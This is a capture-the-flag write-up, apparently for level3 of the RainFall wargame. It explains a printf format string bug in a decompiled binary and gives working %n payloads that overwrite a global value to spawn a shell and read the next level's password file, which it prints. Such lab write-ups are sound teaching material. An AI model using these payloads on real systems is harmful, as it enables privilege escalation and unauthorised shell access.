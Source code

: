 Decompiled version of the program from BinaryNinja:

```c
uint32_t v()
{
    void var_20c;
    fgets(&var_20c, 0x200, stdin);
    printf(&var_20c);
    uint32_t eax = m;
    if (eax == 0x40)
    {
        fwrite("Wait what?!\n", 1, 0xc, stdout);
        eax = system("/bin/sh");
    }
    return eax;
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    return v();
}
```

A vulnerability in the form of a format string attack can be directly observed on the printf function, as it is called in this manner: `printf(&var_20c)`. This enables us to read and overwrite the stack. The objective here seems to be rewriting the value of EAX in order to invoke /bin/sh as user level4.

Resources on this type of vulnerability:

- https://www.unilim.fr/pages_perso/patrick.poulingeas/Enseignements/2004_2005/Master1/FormatString.pdf
- https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf
- https://www.re-xe.com/format-string-bugs/

If we check the function v, we can see that the value contained at address `0x804988c` is stored in EAX before the comparison between EAX and 0x40 (64 in decimal) is carried out:

```assembly
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax ; <== here
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret
```

So, we simply need to rewrite the value present at this address using printf.

Using the formatter `%08x` allows us to advance 4 bytes each time in the stack:

```shell
level3@RainFall:~$ python -c 'print "AAAA %08x %08x %x08 %08x %08x %08x"' | ./level3 
AAAA 00000200 b7fd1ac0 b7ff37d008 41414141 38302520 30252078
```

We can see that our string begins from the 4th formatter, which is the one we control.
Thus, we can directly write the value 0x40 to this address as follows:

```shell
(python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3
```

In this case, the `%n` formatter will read the first 4 bytes, which constitute the address where EAX will retrieve the value, and then it will rewrite the value present at that address. The initial value is 4 since we are displaying 4 bytes (the address). We can add the remainder using `%60d`, which makes 4 + 60 = 64 | 0x40.

Alternatively, we could write it like this, for example:

```shell
(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3
```

And there's the flag:

```shell
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "%60d%4$n"'; cat) | ./level3 
�                                                           
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


